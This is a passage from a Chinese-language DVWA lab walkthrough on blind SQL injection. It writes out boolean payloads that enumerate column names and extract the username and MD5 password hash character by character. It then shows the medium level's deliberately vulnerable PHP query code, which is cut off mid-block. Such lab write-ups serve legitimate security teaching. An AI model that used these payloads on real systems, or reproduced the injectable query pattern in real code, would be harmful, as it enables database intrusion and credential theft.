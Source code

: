 **【猜想】数据库中可能保存的字段名称**
用户名：username/user_name/uname/u_name/user/name/...
密码：password/pass_word/pwd/pass/...

所以接下来我们要猜解账户和密码对应的字段是什么

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='user')=1 #，输出exists

1' and (select count(*) from information_schema.columns where table_schema=database() and table_name='users' and column_name='password')=1 #，输出exists

所以证明了 users表中有 user和password。

**5.猜表中的字段值**

同样使用二分法来做，直接写最后一步了：

用户名的字段值：1' and length(substr((select user from users limit 0,1),1))=5 #，输出exists

——说明user字段中第1个字段值的字符长度=5。

密码的字段值：1' and length(substr((select password from users limit 0,1),1))=32 #，

——说明password字段中第1个字段值的字符长度=32（基本上这么长的密码位数可能是用md5的加密方式保存的）

然后再使用二分法猜解user字段的值：（用户名）

第一个字符是a

1' and ascii(substr((select user from users limit 0,1),2,1))=100 #（第二个字符）

第一个字符是d

... ...

最终得到结果是admin。

猜解password字段的值：（密码）

1' and ascii(substr((select password from users limit 0,1),1,1))>100 #（第一个字符）

... ...

最后得到的是32位长的md5加密的字符串，解密就可以得到密码password。

## medium

```php+HTML
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
	// Get input
	$id = $_POST[ 'id' ];
	$exists = false;

	switch ($_DVWA['SQLI_DB']) {
		case MYSQL:
			$id = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $id ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));

			// Check database
			$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
			$result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ); // Removed 'or die' to suppress mysql errors

			$exists = false;
			if ($result !== false) {
				try {
					$exists = (mysqli_num_rows( $result ) > 0); // The '@' character suppresses errors
				} catch(Exception $e) {
```